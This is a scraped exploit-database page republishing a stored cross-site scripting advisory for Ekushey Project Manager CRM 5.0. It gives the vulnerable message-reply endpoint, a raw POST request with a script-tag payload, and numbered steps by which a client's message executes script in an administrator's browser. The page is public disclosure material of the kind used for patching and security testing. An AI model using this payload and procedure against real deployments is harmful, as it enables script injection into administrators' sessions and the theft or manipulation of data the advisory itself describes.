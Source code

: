 ```yaml
---
title: Ekushey Project Manager CRM 5.0 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173391&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-12
fetch_date: 2025-10-04T11:53:56.870278
---
```


# Ekushey Project Manager CRM 5.0 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Ekushey Project Manager CRM 5.0 Cross Site Scripting

2023-07-11 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173391
# Exploit Title: Ekushey Project Manager CRM 5.0 - Stored XSS
# Exploit Author: CraCkEr
# Vendor: Creativeitem
# Vendor Homepage: https://creativeitem.com/
# Software Link: https://demo.creativeitem.com/ekushey/
# Tested on: Windows 10 Pro
# Impact: Manipulate the content of the site

## Description

Allow Attacker to inject malicious code into website, give ability to steal sensitive
information, manipulate data, and launch additional attacks.

Path: /ekushey/index.php/client/message/message_read/xxxxxxxx[random-msg-hash]

POST parameter 'message' is vulnerable to XSS

-----------------------------------------------
POST /ekushey/index.php/client/message/send_reply/8c8936d3 HTTP/2

-----------------------------------------------
Content-Disposition: form-data; name="message"

<script>alert(1)</script>
-----------------------------------------------

## Steps to Reproduce:

1. Login as (Client)
2. Go to [Message] on this Path: https://website/ekushey/index.php/client/message
3. Select any Person to MSG (Clients or ADMINS]
4. Inject your XSS Payload in [Replay Message]
5. Send

6. XSS Fired on Local Browser

7. When ADMIN visit [Dashboard] or any section in Administration Panel on this Path : https://website/ekushey/index.php/admin/dashboard
8. XSS Will Fire and Executed on his Browser

[-] Done
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)